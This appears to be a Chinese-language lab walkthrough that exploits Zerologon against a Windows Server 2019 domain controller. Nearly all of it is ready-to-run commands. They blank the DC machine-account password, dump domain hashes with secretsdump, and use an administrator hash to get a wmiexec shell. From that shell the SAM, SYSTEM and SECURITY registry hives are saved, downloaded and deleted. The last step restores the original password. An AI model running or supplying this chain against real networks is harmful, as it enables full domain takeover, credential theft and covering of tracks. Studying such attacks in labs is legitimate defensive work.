 域环境搭建参见：https://github.com/ybdt/post-hub/blob/main/7-%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8/2021_07_03_%E5%9F%9F%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/readme.md

受害机器：Win2019_x64_zh-cn
攻击机器：kali

```
git clone https://github.com/risksense/zerologon
git clone https://github.com/SecureAuthCorp/impacket
cd ./impacket && pip3 install .
```

在第一个终端下置空域控的机器用户密码：
```
cd ./zerologon
python3 ./set_empty_pw.py WIN-184MQ8D0KOO 192.168.202.138
其中WIN-184MQ8D0KOO为域控的计算机名，192.168.202.138为域控的ip地址
定位域控可通过命令：net time /domain
```
如下图：  
![image](./pic/1.png)

在第二个终端下提取域控中存储的密码哈希：
```
cd ./impacket/examples/
python3 ./secretsdump.py -no-pass -just-dc ybdt.best/WIN-184MQ8D0KOO\$@192.168.202.138
这里要注意$前有一个\，否则会报错名字或服务未知
```
![image](./pic/2.png)

在第三个终端下使用提取的administrator的密码哈希执行命令，拿到伪交互式shell：
```
cd ./impacket/examples/
python3 ./wmiexec.py ybdt.best/administrator@192.168.202.138 -hashes :a87f3a337d********f9416be5787d86

reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
lget sam.save
lget security.save
lget sysetm.save
del sam.save
del security.save
del system.save
```
如下图：  
![image](./pic/3.png)

在第四个终端下提取原机器用户的密码哈希
```
python3 secretsdump.py -sam sam.save -system system.save -security security.save local
```
如下图：  
![image](./pic/4.png)

在第五个终端下恢复原机器用户的密码哈希
```
python3 ./reinstall_original_pw.py WIN-184MQ8D0KOO 192.168.202.138 ffdab15f085c47cec9de338787e3a66c37004a694e1b0d87f675851b5b860ce16988ffa47b2a85d6e5c7af761ef9ef50a53dabfe6b62d9207a7519a6642548fd6c5ac5a0853446c178aef63da854daf6da389d7ce5c4abd1823f43aea1edde71e6d9e47933638fa06a41c3c79fa862577af77287abbadd77f5675d89c166f8e26e232693564fba153f38ccc3032b639691bd667015e5c5846251a67caaac75bf5255264600587222f7583182eb19d3e17284dbd7774a24216ad9ab601067578155c690d27044bf6765e6665bea36b0f059ae000ae9bfcc908b097b5085bdda71b883360d5a4eab76b5d2dd57b383b9
```
如下图：  
![image](./pic/5.png)
